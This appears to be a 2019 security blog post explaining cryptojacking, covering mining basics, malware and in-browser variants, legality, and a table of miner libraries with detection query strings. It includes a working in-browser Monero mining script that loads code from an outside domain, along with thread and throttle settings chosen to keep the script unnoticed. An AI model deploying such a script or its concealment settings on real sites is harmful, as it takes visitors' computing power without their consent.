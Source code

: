 ```yaml
---
slug: cryptojacking-malware/
title: Cryptojacking, a Real Malware?
date: 2019-08-25
category: opinions
subtitle: Understanding cryptojacking "malware"
tags: social-engineering, javascript
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330840/blog/cryptojacking-malware/cover_qypfzt.webp
alt: Photo by Alberto Duo on Unsplash
description: Here we'll explain the different types of cryptojacking and give an example. We'll also discuss its legal use and the advantages of implementing it in an app.
keywords: Blockchain, Cryptocurrencies, Cryptojacking, Mining, Malware, Javascript, Ethical Hacking, Pentesting
author: Diego Alvarez
writer: diegoaa
name: Diego Alvarez
about1: Systems and Telecommunications Engineer student
about2: '"Blessed is the man who expects nothing, because he will never be disappointed." Alexander Pope'
source: https://unsplash.com/photos/e4rcg33x4fA
---
```


Before we begin, we need a brief definition of blockchain. It is simply
a unique, consensual, and distributed registry on the network that
allows storage of information that cannot be modified, lost or deleted.
It is used in the health sector, smart contracts, intellectual property
management, and cryptocurrencies, the last being its most common use.

In the field of cryptocurrencies, a blockchain stores all transactions
made with a cryptocurrency. The security and integrity of these systems
are maintained by nodes, which are computers connected to the blockchain
network competing with each other to verify transactions. This process
is known as mining and is carried out by providing processing power with
either `CPUs`, `GPUs`, or by using specialized hardware for this type of
task.

Usually nodes associate with each other and create groups that working
together help to validate a group of transactions. When these
transactions are validated, each node is rewarded with the proportion of
the power contributed.

## Concept

When mining cryptocurrency, take into account that in these processes,
the percentage of `GPU` or `CPU` usage increases, as well as the use of
electricity.

Now, what if I tell you that others can perform such processing power
for you, and even better, without having to divide the profits between
them? It sounds pretty good, and it’s simple to implement with two
variations:

- The first is carried out by infecting a victim’s machine with
  malware. Usually, this is done by social engineering. We can make a
  victim, without their knowledge, download malware that executes the
  mining process in the background.

- The other variation is in-browser mining. This executes code in the
  user’s browser when the user is accessing a particular site. In this
  case, `JavaScript` is used to execute such scripts.

## Discussion

On one hand, some people prefer that their `CPU` be used `100%` of the
time, without having to deal with ads and pop-ups on every new page.

On the other hand, antivirus companies periodically update their
definition of malware and include web miners as a potential threat to a
user’s system.

According to reports by COINTELEGRAPH[<sup>\[1\]</sup>](#r1%20), Monero
(the currency most affected by excessive mining) plans to reinforce its
algorithm by requiring miners to dedicate over two gigabytes of `RAM` to
the process, which could make cryptojacking attempts harder to hide.

How the scripts are used defines whether the usage is legal or not.
There are cases where attackers inject code into websites through `XSS`,
generating profits, but do not have the consent of the website
administrator.

As noted above, with social engineering techniques, the attacker could
make victims download malicious programs to perform mining without
consent.

## Tools

There are many tools that can be used to perform in-browser mining.
[Coinhive](https://krebsonsecurity.com/2018/03/who-and-what-is-coinhive/)
had been one of the most used, but since March 2019 it has stopped
working.

However, there are other tools that are quite similar. Table 1 below, a
scan made with [publicWWW](https://publicwww.com/), shows the
approximate number of websites using these tools.

<div class="tc">

**Table 1. Quantity of websites per library[<sup>\[2\]</sup>](#2)**

</div>

| Website                    | Results        | Query Parameter                                                                                                                                                                 |
| -------------------------- | -------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| <p> Coinhive          </p> | <p> 30611 </p> | <p> "coinhive.min.js"                                                                                                                                                      </p> |
| <p> JSEcoin           </p> | <p> 1131  </p> | <p> "load.jsecoin.com"                                                                                                                                                     </p> |
| <p> Crypto-Loot       </p> | <p> 695   </p> | <p> "CryptoLoot.Anonymous"                                                                                                                                                 </p> |
| <p> Minr              </p> | <p> 324   </p> | <p> "minr.pw", "st.kjli.fi", "abc.pema.cl", "metrika.ron.si", "cdn.rove.cl", "host.d-ns.ga", "static.hk.rs", "hallaert.online", "cnt.statistic.date", "cdn.static-cnt.bid" </p> |
| <p> CoinImp           </p> | <p> 317   </p> | <p> "www.coinimp.com/scripts/min.js"                                                                                                                                       </p> |
| <p> ProjectPoi (PPoi) </p> | <p> 116   </p> | <p> "projectpoi.min"                                                                                                                                                       </p> |
| <p> AFMiner           </p> | <p> 46    </p> | <p> "afminer.com/code/miner.php"                                                                                                                                           </p> |
| <p> Papoto            </p> | <p> 42    </p> | <p> "papoto.com/lib/papoto.js"                                                                                                                                             </p> |

In the following example, a test is shown using [Crypto
Loot](http://Crypto-Loot), a library that is replacing the previous
Coinhive. It is very easy to implement in any application by inserting
the following code.

**In-Browser mining script.**

``` javascript
<script src="//statdynamic.com/lib/crypta.js"></script>
<script>
  var miner = new CRLT.Anonymous('15837bc7758859e913c5ccc2d292a9f1e54775389d5',
    { threads:4,throttle:0.2, coin: "xmr" }
  );
  miner.start();
</script>
```

When a user visits the application, the processing level quickly
increases. The recommended thread value to make the script unnoticed is
between 2-4. And the throttle that defines the maximum `CPU` usage is at
0.2 (80%), the full speed being 0.0, and the least recommended.

<div class="imgblock">

![CPU Usage](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330839/blog/cryptojacking-malware/cpu_wkmpwo.webp)

<div class="title">

Figure 1. CPU Usage while visiting a website with In-Browser mining script.

</div>

Collected earnings and processing power can be seen on the
[dashboard](https://crypto-loot.org/dashboard/) of the person who
inserted the script.

## Conclusion

The use of services such as [Crypto Loot](http://Crypto-Loot) can be
legal. They are considered malware when used anonymously in user’s
systems. It is our responsibility to inform users about what is
happening and provide statistics to users on mined power.

In order for these mining methods to be legitimate and therefore, legal,
users must receive a notification about the execution of these scripts,
as well as the option to disable them and stop mining.

So far, there are few websites where the user is not actually informed
of the use of these scripts. Here is where antivirus companies disagree.
Some antivirus companies believe excessive `CPU` usage can cause
intentional damage, while others believe there is no intention to harm
an infected machine’s files; they just make the machine work a little
slower.

Without a doubt, no one wants their machine to work slower, but with
proper configuration of the scripts, you can achieve a website that
generates profits without having to show annoying ads to visitors and
without exceeding `CPU` usage.

## References

1. COINTELEGRAPH. [Monero Developers Consider Adopting New
    Proof-of-Work Algorithm in
    October.](https://cointelegraph.com/news/monero-developers-consider-adopting-new-proof-of-work-algorithm-in-october)

2. S. Eskandari, A. Leoutsarakos, T. Mursch and J. Clark (2018). [A
    first look at browser-based
    cryptojacking](https://sci-hub.tw/https://ieeexplore.ieee.org/abstract/document/8406561).
    *2018 IEEE European Symposium on Security and Privacy Workshops
    (EuroS\&PW)*, 63.
